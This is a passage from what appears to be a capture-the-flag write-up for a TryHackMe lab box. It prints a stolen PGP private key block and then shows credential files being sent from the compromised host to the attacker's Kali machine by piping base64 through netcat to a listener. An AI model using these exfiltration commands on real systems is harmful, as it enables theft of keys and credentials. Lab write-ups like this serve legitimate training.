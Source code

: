 ```text
cRELmhiBsKYYCTFtzdF18Pd9cM0L0mVy/nfhQKFRGx9kQkHweXVt+Pbb3AwfUyH+
CZD5z74jO53N2gRNibUPdVune7pGQVtgjRrvhBiBJpajtzYG+PzBomOfRGZzGSgW
QgYg3McBALTlTlmXgobn9kkJTn6UG/2Hg7T5QkxIZ7yQhPp+rOOhDACYhloI89P7
cUoeQhzkMwmDKpTMd6Q/dT+PeVAtI9w7TCPjISadp3GvwuFrQvROkJYrWAD6060A
MqIv0vpkvCa471xOariGiSSUsQCQI/yZBNjHU+G44PIq+RvB5F5O1oAOwgHjMBAy
vCnmJEx4kBVVcoyGX40HptbyFJMqkPlXHH5DMwEiUjBFbCvXYMrOrrAc1gHqhO+l
bKemiT/ppgoRimKy/XrbOc4dHBF0irCloHpvnM1ShWqT6i6E/IeQZwqS9GtjdqEp
NZ32WGpeumBoKprMzz7RPPZPN0kbyDS6ThzhQjgBnQTr9ZuPHF49zKwbnJfOFoq4
GDhpflKXdsx+xFO9QyrYILNl61soYsC65hQrSyH3Oo+B46+lydd/sjs0sdrSitHG
pxZGT6osNFXjX9SXS9xbRnS9SAtI+ICLsnEhMg0ytuiHPWFzak0gVYuyRzWDNot3
s6laFm+KFcbyg08fekheLXt6412iXK/rtdgePEJfByH+7rfxygdNrcML/jXI6Ooq
Qb6aXe7+C8BK7lWC9kcXvZK2UXeGUXfQJ4Fj80hK9uCwCRgM0AdcBHh+ECQ8dxop
1DtYBANyjU2MojTh88vPDxC3i/eXav11YyxetpwUs7NYPUTTqMqGpvCID5jxuFua
Qa3hZ/rayuPorDAspFs4iVKzR+GSN+IRYAys8pdbq+Rk8WS3q8NEauNhd07D0gkS
m/P3ewH+D9w1lYNQGYDB++PGLe0Tes275ZLPjlnzAUjlgaQTUxg2/2NXZ7h9+x+7
neyV0Io8H7aPvDDx/AotTwFr0vK5RdgaCLT1qrF9MHpKukVHL3jkozMlDCI4On25
eBBZEccbQfrQYUdnhy7DhSY3TaN4gQMNYeHBahgplhLpccFKTxXPjiQ58/RW7fF/
SX6NN84WVcdrtbOxvif6tWN6W3AAHnyUks4v3AfVaSXIbljMMe9aril4aqCFd8GZ
zRC2FApSVZP0QwZWyqpzq4aXesh7KzRWdq3wsQLwCznKQrayZRqDCTSEEbQhdHJ5
aGFja21lIDxzdHV4bmV0QHRyeWhhY2ttZS5jb20+iF4EExEKAAYFAl5ocmIACgkQ
jz2j3sZwcXBQTQD/U9ol0ph0kqODEn1XjSOdw0oZY6DcAsUEYldhSgH77pcBAJ0q
ZR86U84lFOxqmQGjxLYX6iT0OAYGUwxFvgg/bTbsuQENBF5ocmIQBAD/////////
/8kP2qIhaMI0xMZii4DcHNEpAk4IimfMdAILvqY7E5siUUoIeY40BN3vlRmzzTpD
GzArCm3yXxQ3T+E1bW1RwkXkhbV2Yl5+xvRMQummN+1rC/9ctvQGt+3uOGv7Womf
pa6fJBF8Sx/mSShmUezmU4H//////////wACAgP/SPomhdSRSTDga5bx/wT23ynM
5QJSUisS1fdJKuEnNaK4qDdaJnG5doyyYjzNVZ6psZh26/MbbOK60GNUDyAHKGTZ
QCCGH6IHI2BBei+WAct9HVxQMRjkIH/Q1KGn1bYhCbbU+Jv963K5UpV5iCudbMhI
+aKUz7CeIMzTHgz7tDyIXgQYEQoABgUCXmhyYgAKCRCPPaPexnBxcDsBAP9wsMYZ
AKlCbtMLnrDy3kl9+8YjJmyV9pJ2ycv4w+IPYgEAs0g4rLw7W41INOdxFK+iKNbW
kG6wLdznOpe4zaLA/vM=
=dMrv
-----END PGP PRIVATE KEY BLOCK-----
```

Let's get both files on to our Kali box so we can have a proper look at them:

```text
skyfuck@ubuntu:~$ base64 credential.pgp | nc 10.9.17.195 1234
skyfuck@ubuntu:~$ base64 tryhackme.asc | nc 10.9.17.195 1234
```

Have nc waiting on Kali to receive the files:

```text
root@kali:~# nc -nvlp 1234 > credential.pgp.b64
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.76.159] 39502
root@kali:~# nc -nvlp 1234 > tryhackme.asc.b64
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.76.159] 39504
root@kali:~/thm/tomghost# base64 -d credential.pgp.b64 > credential.pgp
root@kali:~/thm/tomghost# base64 -d tryhackme.asc.b64 > tryhackme.asc
```
